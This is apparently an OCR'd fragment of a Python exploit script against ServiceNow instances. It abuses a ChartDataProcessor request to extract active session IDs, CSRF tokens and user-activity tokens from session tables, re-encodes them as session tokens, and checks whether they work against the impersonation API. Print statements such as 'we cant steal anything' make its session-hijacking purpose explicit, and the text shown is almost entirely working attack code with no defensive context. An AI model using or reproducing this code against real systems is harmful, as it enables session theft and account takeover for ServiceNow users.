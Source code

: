 ```python
        "sysparm_request_params": post_data, "sysparm_processor": "ChartDataProcessor"}
    json_response = session.post(target, headers=headers, cookies=cookies, data=payload,
                                 proxies=proxies, verify=False)
    tree = ET.fromstring(json_response.text)
    notags = ET.tostring(tree, encoding='utf8', method='text')
    json_data = json.loads(notags)
    a = json_data['CHART_DATA']
    b = json.loads(a)['series']
    for i in b:
        arr = i['aggregate_query']
        c = i['aggregate_query'][0]
    if not admin_filter:
        base64_bytes_arr = []
        num = 0
        for val in arr:
            try:
                token = arr[num].strip('token=')
                token_format = "SCv3_1:{}=:{}".format(token, "AAAA")
                encoded_token = token_format.encode('ascii')
                base64_bytes = base64.b64encode(encoded_token)
                base64_bytes_arr.append(base64_bytes)
            except Exception as err:
                #print(err)
                print("No Active Session, we cant steal anything!! :(")
                exit(1)
            num = num + 1
        return base64_bytes_arr
    else:
        try:
            return arr
        except Exception as e:
            print("No Vaild Sessions")
            exit(1);

def validation(sess, user, activity):
    session = requests.session()
    validation_endpoint = "https://<ServiceNowInstance>/api/now/ui/impersonate/role"
    validation_cookies = {
        "glide_user_activity": activity,
        "glide_session_store": sess
    }
    validation_headers = {"X-Usertoken": user,
               "Origin": "https://<serviceNowInstance>", "Content-Type": "application/json;charset=utf-8"
    }
    payload = {"role":""}
    json_response = session.post(validation_endpoint, headers=validation_headers, cookies=validation_cookies, json=payload,
                                 proxies=proxies, verify=False)
    return json_response.status_code, json_response.json()

def main():
    glide_session_stores_arr = []
    usertoken_arr = []
    glide_user_activity_arr = []
    try:
        glide_session_stores_arr = retrieve_tokens('sys_user_session', 'id', args.n, True)
        usertoken_arr = retrieve_tokens('sys_user_session', 'csrf_token', args.n, True)
        glide_user_activity_arr = retrieve_tokens('sys_user_token', 'token', args.n, False)
    except Exception as e:
        print("No valid session with that user..:(\n")
        exit(1)

```